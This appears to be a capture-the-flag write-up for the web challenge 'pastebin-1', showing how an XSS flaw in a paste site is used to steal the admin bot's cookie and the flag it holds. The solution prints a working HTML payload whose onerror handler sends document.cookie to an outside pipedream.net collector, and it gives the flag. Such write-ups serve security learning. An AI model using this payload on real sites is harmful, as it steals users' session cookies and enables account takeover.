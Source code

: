 # web/pastebin-1
### BrownieInMotion

## Description
Ah, the classic pastebin. Can you get the admin's cookies?

pastebin-1.mc.ax

[Admin bot](https://admin-bot.mc.ax/pastebin-1)

[main.rs](Assets\main.rs)

## Solution
The site allows us to craft a webpage. Hence, this is most likely a XSS challenge.<br/>
We thus create a simple image that sends a request to our endpoint.<br/>
```html
<img src="https://*; script-src 'unsafe-inline'" onerror="var img = new Image(); img.src = 'https://6d8dab053d9ef5e7612246869dd7586e.m.pipedream.net?b='+document.cookie; document.body.appendChild(img);">
```
The cookie is appended as a query `b: flag=flag{d1dn7_n33d_70_b3_1n_ru57}`

> flag{d1dn7_n33d_70_b3_1n_ru57}
